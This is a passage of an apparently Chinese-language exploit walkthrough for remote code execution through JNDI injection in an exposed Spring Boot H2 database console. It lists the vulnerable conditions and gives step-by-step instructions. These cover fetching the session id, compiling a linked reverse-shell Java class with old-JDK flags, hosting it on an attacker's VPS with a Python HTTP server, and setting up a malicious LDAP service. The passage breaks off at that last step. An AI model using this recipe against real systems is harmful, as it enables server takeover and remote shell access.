 **漏洞分析：**

​ [remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)

**漏洞环境：**

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```
http://127.0.0.1:9096/actuator/env
```

#### 0x07：h2 database console JNDI RCE

**利用条件：**

* 存在 `com.h2database.h2` 依赖（版本要求暂未知）
* spring 配置中启用 h2 console `spring.h2.console.enabled=true`
* 目标可以请求攻击者的服务器（请求可出外网）
* JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1（LDAP 方式）

**利用方法：**

**步骤一：访问路由获得 jsessionid**

直接访问目标开启 h2 console 的默认路由 `/h2-console`，目标会跳转到页面 `/h2-console/login.jsp?jsessionid=xxxxxx`，记录下实际的 `jsessionid=xxxxxx` 值。

**步骤二：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

**步骤三：托管 class 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。

**步骤四：架设恶意 ldap 服务**

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：
